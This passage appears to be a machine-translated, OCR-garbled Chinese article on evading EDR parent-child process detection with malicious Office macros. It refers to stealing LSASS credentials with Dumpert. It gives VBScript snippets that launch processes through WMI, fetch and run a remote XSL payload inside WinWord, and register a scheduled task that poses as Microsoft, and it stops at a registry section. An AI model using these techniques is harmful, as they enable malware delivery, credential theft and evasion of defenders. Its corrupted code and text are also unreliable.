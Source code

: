 钴罢工的 Dumpert

因此，通过组合几种方法，我们可以实现从 LSASS 窃取凭证的隐藏工作。

避免 office 文档宏中的父子规则
在 ART 攻击中，传递引导加载程序或有效负载的最流行方式是 Office 文档中的宏。同时，宏中的漏洞利用思想保持不变，只是它们的解释变得更加复杂，也就是说，添加了混淆以绕过 EDR。

Office 宏是用 VBScript 编写的，VBScript 支持很多有用的功能，可以提供对系统的完全访问。因此，Emotet 使用序列 WinWord → cmd → PowerShell，APT28 组使用调用 certutil 的宏来解码负载。

无论你如何混淆宏，上面的例子都会被 EDR 使用父子进程模式检测到，因为 cmd、PowerShell 或 certutil 会从 WinWord 进程调用，也就是说，它们会是它的子进程。

但是有几种方法可以避免这种 EDR 模式。

# 1.避免直接分析后代

为了防止新进程从 WinWord 降级，您可以使用 WMI 来启动它们。新流程将成为 wmiprvse.exe 的子流程。这可以使用下面的代码来完成。

> set obj = GetObject(" new:c 08 AFD 90-f2a 1–11 D1–8455–00 a0c 91 f 3880 ")
> obj。document . APPLICATION . shell execute " APPLICATION "，Null，" FOLDER "，Null，0

您还可以直接在 WinWord 进程中下载和执行代码。为此，使用了 XMLDOM。

> Set xml = CreateObject ("Microsoft。XML DOM ")
> XML . async = False
> Set xsl = XML
> xsl . load(" http://IP/payload . xsl ")
> XML . transform node xsl

# 2.由于计划任务而闪避

可以使用 VBScript 创建计划任务。新流程将在 svchost.exe 启动。这也很方便，因为我们可以安排在几天或几周内执行。这可以使用下面的代码来完成，指定所需的日期。

> set service = CreateObject(" Schedule。
> )【服务】呼叫服务。连接
> Dim td: Set td = service。NewTask (0)
> td。registration info . Author = " Microsoft Corporation "
> TD . settings . startwhenavailable = True
> TD . settings . hidden = False
> Dim triggers:Set triggers = TD . triggers
> Dim trigger:Set trigger = triggers。create(1)
> Dim start time:ts = DateAdd(" s "，30，Now)
> start time = Year(ts)&"-"&Right(Month(ts)，2) & "-" & Right (Day (ts)，2)&【T】&Right(Hour(ts)，2)&":&Right(Minute(ts)，2)&":&Right(Second(ts)，2StartBoundary = startTime
> 触发器。ID = " time triggerid "
> Dim Action:Set Action = TD。Actions.Create (0)
> 动作。PATH = " PATH/FOR/APPLICATION "
> 呼叫服务。GetFolder ("\ ")。RegisterTaskDefinition(" update task "，td，6，，，3)

唯一需要说明的是**时间表的使用。服务**对象可以给出正在加载的**taskschd.dll**的 WinWord。

# 3.使用注册表
